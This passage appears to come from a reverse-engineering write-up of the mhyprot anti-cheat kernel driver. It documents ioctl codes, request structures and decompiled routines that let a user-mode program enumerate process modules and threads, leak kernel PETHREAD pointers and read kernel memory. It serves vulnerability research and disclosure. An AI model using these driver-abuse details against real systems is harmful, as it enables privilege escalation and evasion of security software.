            sub_FFFFF800188C75C0(v21 + v4 + 12, j[12], v23); // copy BaseDllName to the buffer
            v24 = *((_WORD *)j + 36);
            v25 = v24;
            if ( v24 > 0x103u )
              v25 = 259i64;
            sub_FFFFF800188C75C0(v21 + v4 + 268, j[10], v25); // copy FullDllName to the buffer
            *(_QWORD *)(v21 + v4 + 792) = *((unsigned int *)j + 32);
            v3 = v32;
          }
          ++v6; // counter
          ++v7; // counter
        }
      }
    }
  } else { ... /* 32-bit PEB (Redacted) */ }
  KeUnstackDetachProcess(&v30); // detach
  return v6;
}
```

We got a much information from it as follows:

- We can get `BaseDllName` and `FullDllName` using this ioctl command
- What we need is only `ProcessId` and `MaxCount`
- The output buffer will overrided in the request buffer
- The output buffer also must have `0x3A0` size alignment per module

Now lets time to code, as we define structure for the payload:

(This is defined in [mhyprot.hpp#L62](https://github.com/kkent030315/evil-mhyprot-cli/blob/main/src/mhyprot.hpp#L62) as well.)

```cpp
typedef struct _MHYPROT_ENUM_PROCESS_MODULES_REQUEST
{
	uint32_t process_id;
	uint32_t max_count;
} MHYPROT_ENUM_PROCESS_MODULES_REQUEST, * PMHYPROT_ENUM_PROCESS_MODULES_REQUEST;
```

By:

```cpp
if (uVar1_ControlCode == 0x82054000) {
	uVar6 = GetModuleListByProcessId_FUN_000126d0
		(*(uint *)puVar3_RequestContext, 				// process id
		(longlong)(uint *)((longlong)puVar3_RequestContext + 4), 	// out buffer, the output will be stored with overriding max count...
		*(uint *)((longlong)puVar3_RequestContext + 4) 			// max count
		);
	iVar3 = (int)uVar6;
}
...
// mhyprot overrides first 4byte of the payload buffer to identify success or fail
*(int *)puVar3_RequestContext = iVar3;
```

What we need is:

- 1. Allocate memory for payload and its result, `0x3A0` * `MaxCount`
- 2. Send the payload with the ioctl code `0x82054000`
- 3. Check for the first 4byte

Call map:



### Proof

I've hooked some part of mhyprot kernel module, especially `PsGetProcessPEB` and `PsLookupProcessByProcessId` and confirmed.



## Getting System Uptime

The driver ioctl implements getting system uptime as follows:  

It eventually calls `KeQueryTimeIncrement` which could get system uptime in nanoseconds.

```cpp
PAGE:FFFFF800188CD737 loc_FFFFF800188CD737:                   ; CODE XREF: sub_FFFFF800188CD6E0+38↑j
PAGE:FFFFF800188CD737                 lea     eax, [rcx+7FEEC000h]
PAGE:FFFFF800188CD73D                 mov     edx, 80134000h
PAGE:FFFFF800188CD742                 test    eax, 0FFFCFFFFh
PAGE:FFFFF800188CD747                 jnz     short loc_FFFFF800188CD751
PAGE:FFFFF800188CD749                 cmp     ecx, edx
PAGE:FFFFF800188CD74B                 jnz     loc_FFFFF800188CDA4F
PAGE:FFFFF800188CD751
PAGE:FFFFF800188CD751 loc_FFFFF800188CD751:                   ; CODE XREF: sub_FFFFF800188CD6E0+67↑j
PAGE:FFFFF800188CD751                 cmp     ecx, edx // if (ioctl_code == 0x80134000)
PAGE:FFFFF800188CD753                 jnz     short loc_FFFFF800188CD766
PAGE:FFFFF800188CD755                 call    sub_FFFFF800188C2314 // <-
PAGE:FFFFF800188CD75A                 mov     [rdi], eax // *(unsigned int*)req_ctx = (unsigned int)result
```

and the `sub_FFFFF800188C2314` is:

```cpp
.text:FFFFF800188C2314 sub_FFFFF800188C2314 proc near          ; CODE XREF: sub_FFFFF800188C141C+C↑p
.text:FFFFF800188C2314                                         ; sub_FFFFF800188C5C0C+38↓p ...
.text:FFFFF800188C2314                 sub     rsp, 28h
.text:FFFFF800188C2318                 call    cs:KeQueryTimeIncrement // <-
.text:FFFFF800188C231E                 mov     eax, eax
.text:FFFFF800188C2320                 mov     rcx, 0FFFFF78000000320h
.text:FFFFF800188C232A                 mov     rcx, [rcx]
.text:FFFFF800188C232D                 imul    rcx, rax
.text:FFFFF800188C2331                 mov     rax, 346DC5D63886594Bh
.text:FFFFF800188C233B                 imul    rcx
.text:FFFFF800188C233E                 sar     rdx, 0Bh
.text:FFFFF800188C2342                 mov     rax, rdx
.text:FFFFF800188C2345                 shr     rax, 3Fh
.text:FFFFF800188C2349                 add     rax, rdx
.text:FFFFF800188C234C                 add     rsp, 28h
.text:FFFFF800188C2350                 retn // (unsigned integer) miliseconds
.text:FFFFF800188C2350 sub_FFFFF800188C2314 endp
```

Call map:



## Enumerate Threads 

The driver has a vulnerable ioctl that allows us to enumerate threads in specific process as ring-0 privilege.  
it also make us able to read kernel structure `PETHREAD` because the ioctl result contains a pointer to it.  
to read kernel memory, we are already able to do it through this vulnerable driver as well.  

I'll explain how I made managed to work it with reverse engineering.  

First of all, the driver has a function that executes `ZwQuerySystemInformation`.  
Here is a block found on ioctl handler subroutine:

```cpp
PAGE:FFFFF800188CD77E loc_FFFFF800188CD77E:                   ; CODE XREF: sub_FFFFF800188CD6E0+8C↑j
PAGE:FFFFF800188CD77E                 cmp     ecx, 83024000h
PAGE:FFFFF800188CD784                 jnz     short loc_FFFFF800188CD794
PAGE:FFFFF800188CD786                 lea     rcx, [rdi+4]
PAGE:FFFFF800188CD78A                 mov     rdx, rdi
PAGE:FFFFF800188CD78D                 call    sub_FFFFF800188C62EC
PAGE:FFFFF800188CD792                 jmp     short loc_FFFFF800188CD7C1
```

`sub_FFFFF800188C62EC` is:

```cpp
__int64 __fastcall sub_FFFFF800188C62EC(__int64 a1, _DWORD *a2)
{
  __int64 result; // rax

  if ( *a2 == 136 ) // *a2 == 0x88
    result = sub_FFFFF800188C6488(a2[2], a1, a2[1]);
  else
    result = 0xFFFFFFFFi64;
  return result;
}
```

We are seeing an if statement `if ( *a2 == 136 )`, `136` is `0x88`, if the a2(given by context) is not `0x88`, the driver will returns `0xFFFFFFFF`.  
I have no idea what is this validation is even I finished looking around it for a while...  

Also `sub_FFFFF800188C6488` is:

```cpp
__int64 __fastcall sub_FFFFF800188C6488(int a1, __int64 a2_OutBuffer, unsigned int a3_ProcessId)
{
  v3_OutBuffer = a2_OutBuffer;
  v4 = a1;
  v5 = a3_ProcessId;
  v6 = -1;
  RtlInitUnicodeString(&SystemRoutineName, L"ZwQuerySystemInformation");
  v7_pZwQuerySystemInformation = (int (__fastcall *)(__int64, __m128 *, _QWORD, SIZE_T *))MmGetSystemRoutineAddress(&SystemRoutineName);
  v8_pZwQuerySystemInformation = v7_pZwQuerySystemInformation;
  if ( v7_pZwQuerySystemInformation )
  {
    LODWORD(NumberOfBytes) = 0;
    if ( v7_pZwQuerySystemInformation(5i64, 0i64, 0i64, &NumberOfBytes) == -1073741820 )// SystemProcessInformation
    {
      if ( (_DWORD)NumberOfBytes )
      {
        v9 = (__m128 *)ExAllocatePool(NonPagedPool, (unsigned int)NumberOfBytes);
        v10_ProcInfo = v9;
        if ( v9 )
        {
          RKM_sub_FFFFF800188C7900(v9, 0, (unsigned int)NumberOfBytes);// fill the memory by 0
          if ( v8_pZwQuerySystemInformation(5i64, v10_ProcInfo, (unsigned int)NumberOfBytes, &NumberOfBytes) >= 0 )// SystemProcessInformation
          {
            v11_ProcInfo = v10_ProcInfo;
            while ( (unsigned __int8)MmIsAddressValid(v11_ProcInfo) )
            {
              if ( v11_ProcInfo[5].m128_i32[0] == v4 )
              {
                v6 = HIDWORD(v11_ProcInfo->m128_u64[0]);
                if ( v6 <= v5 )                 // == ProcessId
                {
                  v13 = 0i64;
                  if ( v6 )
                  {
                    v14 = v3_OutBuffer + 8;     // data offset per item
                    v15 = v11_ProcInfo + 19;
                    do
                    {
                      v16 = v15->m128_u64[0];
                      Object_PETHREAD = 0i64;
                      PsLookupThreadByThreadId(v16, &Object_PETHREAD);
                      v17_PETHREAD = Object_PETHREAD;
                      v18_PETHREAD = Object_PETHREAD;
                      *(_DWORD *)(v14 - 8) = v11_ProcInfo[5].m128_i32[0];
                      *(_DWORD *)(v14 - 4) = v16;
                      *(_QWORD *)v14 = v18_PETHREAD;// set a pointer to the this PETHREAD
                      *(_QWORD *)(v14 + 8) = GetThreadStartAddress_sub_FFFFF800188C68C8((__int64)v18_PETHREAD);// set thread start address
                      *(_QWORD *)(v14 + 16) = sub_FFFFF800188C687C((__int64)v17_PETHREAD);// this actually return PETHREAD+0x400
                      *(_DWORD *)(v14 + 24) = sub_FFFFF800188C67F4((__int64)v17_PETHREAD) != 0;// unknown, bool
                      if ( v17_PETHREAD )
                        ObfDereferenceObject(v17_PETHREAD);
                      ++v13;
                      v15 += 5;
                      v14 += 168i64;            // 0xA8 alignment
                    }
                    while ( v13 < HIDWORD(v11_ProcInfo->m128_u64[0]) ); SYSTEM_PROCESS_INFORMATION->Threads
                  }
                }
                break;
              }
              v12 = LODWORD(v11_ProcInfo->m128_u64[0]);
              if ( (_DWORD)v12 )
              {
                v11_ProcInfo = (__m128 *)((char *)v11_ProcInfo + v12);
                if ( v11_ProcInfo )
                  continue;
              }
              break;
            }
            ExFreePoolWithTag(v10_ProcInfo, 0);
          }
        }
      }
    }
  }
  return v6;
}
```

As the pseudocode says, subroutine does:

- 1. Get the pointer to the `ZwQuerySystemInformation` by `MmGetSystemRoutineAddress`
- 2. Call `ZwQuerySystemInformation` with `SystemProcessInformation` to get pool size what we have to allocate. (bad implementation)
- 3. Allocate memory using `ExAllocatePool` with the size
- 4. Call `ZwQuerySystemInformation` again to enumerate processes
- 5. Enumerate for every single processes and making sure the address is valid by `MmIsAddressValid`
	- If the process id is match, call `PsLookupThreadByThreadId` to get `PETHREAD` by thread id, then write information into the payload buffer, every single threads.

Also:

- The output data structure is `0xA8` alignment
- We can get its thread's start address by `sub_FFFFF800188C68C8`
- We can get its thread's `PETHREAD` address in the kernel

So I don't know what `sub_FFFFF800188C687C` and `sub_FFFFF800188C67F4` does.  
only one thing I know is that the first one references `PETHREAD+0x400` as follows:

```cpp
__int64 __fastcall sub_FFFFF800188C687C(__int64 a1_PETHREAD)
{
  __int64 v1; // rbx
  __int64 v2_PETHREAD; // rdi
  __int64 *v4; // rdi

  v1 = 0i64;
  v2_PETHREAD = a1_PETHREAD;
  if ( !qword_FFFFF800188CA728 )
    return 0i64;
  if ( (unsigned __int8)MmIsAddressValid(a1_PETHREAD) == 1 )
  {
    v4 = (__int64 *)(qword_FFFFF800188CA728 + v2_PETHREAD);// 1048i64 + v2_PETHREAD, winver depends
    if ( (unsigned __int8)MmIsAddressValid(v4) == 1 )
      v1 = *v4;
  }
  return v1;
}
```

`qword_FFFFF800188CA728` is an static variable which has a windows-version-depends offset for the struct member.  
Confirmed by this subroutine:  
As you can see the switch-case is winver.

```cpp
bool __fastcall sub_FFFFF800188C70CC(__int64 a1, __int64 a2, __int64 a3)
{
  char v4; // [rsp+20h] [rbp-128h]
  unsigned int v5; // [rsp+2Ch] [rbp-11Ch]
  __int64 v6; // [rsp+150h] [rbp+8h]

  switch ( dword_FFFFF800188CA748 )
  {
    case 61:
      qword_FFFFF800188CA700 = 384i64;
      qword_FFFFF800188CA708 = 360i64;
      qword_FFFFF800188CA710 = 496i64;
      qword_FFFFF800188CA720 = 512i64;
      qword_FFFFF800188CA718 = 616i64;
      qword_FFFFF800188CA728 = 872i64;
      qword_FFFFF800188CA730 = 1048i64; // <-
      qword_FFFFF800188CA738 = 1104i64;
      qword_FFFFF800188CA740 = 736i64;
      break;
    case 62:
      qword_FFFFF800188CA730 = 1008i64; // <-
      qword_FFFFF800188CA738 = 1068i64;
      goto LABEL_15;
    case 63:
      qword_FFFFF800188CA730 = 1656i64; // <-
      qword_FFFFF800188CA738 = 1716i64;
LABEL_15:
      qword_FFFFF800188CA718 = 936i64;
      qword_FFFFF800188CA720 = 1032i64;
      qword_FFFFF800188CA710 = 1040i64;
      qword_FFFFF800188CA700 = 736i64;
      qword_FFFFF800188CA740 = 768i64;
      break;
    case 100:
      RtlGetVersion(&v4);
      if ( v5 >= 0x4A61 )
      {
        qword_FFFFF800188CA730 = 0i64; // <-
        qword_FFFFF800188CA700 = 1088i64;
        qword_FFFFF800188CA710 = 1400i64;
        qword_FFFFF800188CA718 = 1304i64;
        qword_FFFFF800188CA720 = 1392i64;
        qword_FFFFF800188CA708 = 1128i64;
        qword_FFFFF800188CA738 = 1296i64;
LABEL_9:
        qword_FFFFF800188CA740 = 912i64;
        break;
      }
      qword_FFFFF800188CA710 = 1056i64;
      qword_FFFFF800188CA720 = 1048i64;
      if ( v5 >= 0x47BA )
      {
        qword_FFFFF800188CA700 = 744i64;
        qword_FFFFF800188CA718 = 960i64;
        qword_FFFFF800188CA708 = 784i64;
        qword_FFFFF800188CA730 = 1696i64; // <-
        qword_FFFFF800188CA738 = 1760i64;
        goto LABEL_9;
      }
      qword_FFFFF800188CA718 = 952i64;
      qword_FFFFF800188CA740 = 904i64;
      if ( v5 < 0x3AD7 )
      {
        qword_FFFFF800188CA700 = 744i64;
        qword_FFFFF800188CA730 = 1672i64; // <-
        qword_FFFFF800188CA738 = 1728i64;
      }
      else
      {
        qword_FFFFF800188CA700 = 736i64;
        qword_FFFFF800188CA708 = 776i64;
        qword_FFFFF800188CA730 = 1680i64; // <-
        qword_FFFFF800188CA738 = 1744i64;
      }
      break;
  }
  v6 = 0i64;
  PsLookupProcessByProcessId(4i64, &v6, a3);
  return sub_FFFFF800188C3D08(v6) == 4;
}
```

Call map:



### Proof

Confirmed by hooking system-calls in mhyprot kernel module:  

System-calls are properly called exactly same as the pseudocode:




Data is set by the driver, this is the memory view of payload buffer:


